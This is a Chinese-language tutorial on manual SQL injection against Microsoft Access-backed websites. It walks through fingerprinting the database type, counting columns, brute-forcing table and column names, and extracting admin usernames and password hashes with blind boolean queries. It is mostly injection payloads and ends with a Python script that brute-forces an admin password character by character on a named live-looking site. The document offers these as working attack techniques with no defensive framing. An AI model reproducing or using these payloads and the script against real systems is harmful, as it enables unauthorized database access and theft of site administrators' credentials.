 # access_inject
access注入
Access数据库手工渗透思路过程（总）

# 1判断数据库类型
一、通过页面返回的报错信息，一般情况下页面报错会显示是什么数据库类型，在此不多说；

二、通过各个数据库特有的数据表来判断：

    1、mssql数据库
      http://127.0.0.1/test.php?id=1 and (select count(*) from sysobjects)>0 and 1=1
    2、access数据库
      http://127.0.0.1/test.php?id=1 and (select count(*) from msysobjects)>0 and 1=1
    3、mysql数据库(mysql版本在5.0以上)
  http://127.0.0.1/test.php?id=1 and (select count(*) from information_schema.TABLES)>0 and 1=1
Access和SQL Server都有自己的系统表，比如存放数据库中所有对象的表：Access是在系统表“msysobjects”中，但在Web环境下读该表会提示“没有权限”；SQL Server是在表“sysobjects”中，在Web环境下可正常读取。在确认可以注入的情况下，使用下面的语句：http://www.xxx.com/a.asp?ID=1 and(select count(*) from sysobjects)>0如果数据库是Access，由于找不到表sysobjects，服务器错误提示。
    4、oracle数据库
      http://127.0.0.1/test.php?id=1 and (select count(*) from sys.user_tables)>0 and 1=1
      
三、通过各数据库特有的连接符判断数据库类型：

1、mssql数据库

http://127.0.0.1/test.php?id=1 and '1' + '1' = '11'

2、mysql数据库

http://127.0.0.1/test.php?id=1 and '1' + '1' = '11'

http://127.0.0.1/test.php?id=1 and CONCAT('1','1')='11'

3、oracle数据库

http://127.0.0.1/test.php?id=1 and '1'||'1'='11'

http://127.0.0.1/test.php?id=1 and CONCAT('1','1')='11'

4、access数据库

http://127.0.0.1/test.php?id=1 and ‘1’&’1’=’11’

# 1.逐一爆破字段

# 2.1确定当前查询的列数
order by 22正确 order by 23错误 这就说明字段数目是22个

# 3.猜解表名
由于Access数据库的系统表默认不可访问，故不能像Mysql数据库一样，通过注系统表来获得表名和列名。这也是Access数据库比较难注入的一个原因，只要表名、列名够变态，有注入点也很难注出结果。
3.1 方法1-系统表

当然，如果有系统表的话，直接注是最好的。
UNION SELECT Name, NULL, NULL, NULL, NULL from MSysObjects WHERE Type=1

3.2 方法2-爆破法

' AND (SELECT TOP 1 1 FROM TableNameToBruteforce[i])
在提交注入查询语句后，如果获得的HTML返回和正常页面一样，则表存在。
还可以

AND exists(select * from tablename)

?ID=568 and(select count(*) from admin)>=0

通过写脚本，用字典中的项逐一替换tablename，直到返回正确页面，即表示当前表名存在，下同。
' AND (SELECT TOP 1 1 FROM TableNameToBruteforce[i])

# 3.表名猜完之后那就猜列（为了方便假设表名为admin） 

猜列名：  语法：and (select count(字段名) from admin)>0     
例：and (select count(username) from article_admin)>0  返回了正常，
接着提交： and (select count(password) from article_admin)>0  返回了正常
如果都返回正常那就说明存在username和password这两个字段名。（当然同样需要去猜，手工的就是比较麻烦）

# 4.猜用户名和密码长度；

（一下的字段名都假设为username，password方便阐述。） 
 and (select top 1 len(username) from article_admin)=5  返回正常，说明username内容长度为5（从1开始一直去尝试，知道返回页面错误为止。）
 and (select top 1 len(password) from article_admin)=16  正常，password内容长度为16，也就是MD5的值。
 
# 5.  猜用户名和密码内容：

 and (select top 1 asc(mid(username,1,1)) from article_admin)=97  返回了正常，说明第一username里的第一位内容是ASC码的97，也就是a。 
（ascii不行）access截取字符串，Left 函数，Right 函数 mid函数
猜第二位把username,1,1改成username,2,1就可以了。  猜密码把username改成password就OK了  同时附上以ASC表方便查阅。

# 一小段脚本，可方便操作

/#coding=utf-8

import sys

import requests

import re

import binascii

from termcolor import *

import optparse

url='http://www.dongchong.net/about.asp?kind=cn&title=a1'

payloads='abcdefghigklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789@_.'

response=requests.get(url)

length = response.headers['content-length']

print (colored("true length: "+length,"green",attrs=["bold"])) #termcolor 绿 加粗

for i in range(1,3):

	for payload in payloads:
  
		payload_url="' and (select top 1 asc(mid(password,{},1)) from admin)={} and '1'='1 ".format(i,ord(payload))  #ord 返回ascii码值
    
		print (payload)
    
		response=requests.get(url+payload_url)
    
		length_now = response.headers['content-length']
    
		print (colored("now length: "+length_now,"green",attrs=["bold"]))
    
		if length_now==length:
    
			break
      
	print (colored("result:"+payload,"yellow",attrs=["bold"]))
  

print (colored("over ---","green",attrs=["bold"]))
